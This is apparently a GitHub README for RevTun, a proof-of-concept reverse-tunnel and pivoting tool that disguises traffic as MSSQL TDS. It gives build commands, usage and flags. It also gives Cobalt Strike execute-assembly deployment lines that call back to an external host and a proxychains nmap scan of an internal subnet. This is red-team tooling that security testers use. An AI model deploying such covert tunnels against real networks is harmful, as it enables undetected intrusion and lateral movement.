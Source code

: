 # RevTun

RevTun is a POC tool for network pivoting. It operates similar to chisel, ligolo and ssh tunneling. The main difference is that it uses the Microsoft SQL Server TDS protocol to make the network traffic look like MSSQL traffic.

It operates in 3 modes:
- **Server**: Listens on a port (1433 by default). Once it receives a client connection, it opens another port (1080 by default). Through the second port, we can use proxychains/tun2socks to forward all traffic though the client.
- **Client**: Connects to server or to the relay using authentic MSSQL authentication. Forwards all traffic from the server.
- **Relay**: Relays the traffic from the client to the server. Use case: the client cannot directly reach the server but can reach the relay machine.

## Building

### Quick Build
```powershell
.\build-multi.ps1  # Builds .NET Framework 4.8, Linux x64, Windows x64
```

### Manual Builds
```bash
# Windows x64
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true

# Linux x64  
dotnet publish -c Release -f net8.0 -r linux-x64 --self-contained true -p:PublishSingleFile=true

# Cobalt Strike (.NET Framework 4.8)
dotnet build -c Release -f net48 -p:Platform=AnyCPU
```
```bash
# Build for execute-assembly compatibility
dotnet build -c Release -f net48 -p:Platform=AnyCPU
```

### Build (Multi-Platform)
Use the provided PowerShell script for automated builds:

```powershell
# Builds all targets: .NET Framework 4.8, Linux x64, Windows x64
.\build-multi.ps1
```

## Usage

### Server (Reverse Tunnel)
```bash
./revtun server --port 1433 --proxy-port 1080
```

### Client (Connect to Server)  
```bash
./revtun client --host server.com --port 1433 --encrypt
```

### Relay (Traffic Forwarding)
```bash
./revtun relay --host target-server.com --port 1433 --server-port 1433 --debug
```

### Using SOCKS Proxy
```bash
curl --proxy socks5://localhost:1080 http://internal-resource.local
proxychains nmap -sT 192.168.1.0/24
```

## Cobalt Strike Integration

### Deployment
```bash
# Client from internal network  
execute-assembly revtun.exe client --host [external-ip] --port 1433 --encrypt --auto-exit

# Relay on pivot host
execute-assembly revtun.exe relay --host [internal-sql-server] --port 1433 --verbose
```

## Command Options

### Server
```
--port, -p <port>          MSSQL server port (default: 1433)
--proxy-port <port>        SOCKS proxy port (default: 1080)  
--bind <address>           Bind address (default: 0.0.0.0)
--verbose, -v              Enable verbose logging
--require-encryption       Require TLS encryption
```

### Client  
```
--host, -h <hostname>      Server hostname (default: localhost)
--port, -p <port>          Server port (default: 1433)
--username, -u <user>      SQL username (default: sa)
--password <pass>          SQL password (default: Password123)
--auto-exit                Exit after connection test
--verbose, -v              Enable verbose logging
--debug                    Enable debug output
--encrypt                  Request TLS encryption
```

### Relay
```
--port, -p <port>          Relay listener port (default: 1433)
--bind <address>           Bind address (default: 0.0.0.0)
--host, -h <hostname>      Target server hostname (default: localhost)
--server-port <port>       Target server port (default: 1433)
--verbose, -v              Enable verbose logging
--debug                    Enable debug output with TDS packet analysis
```
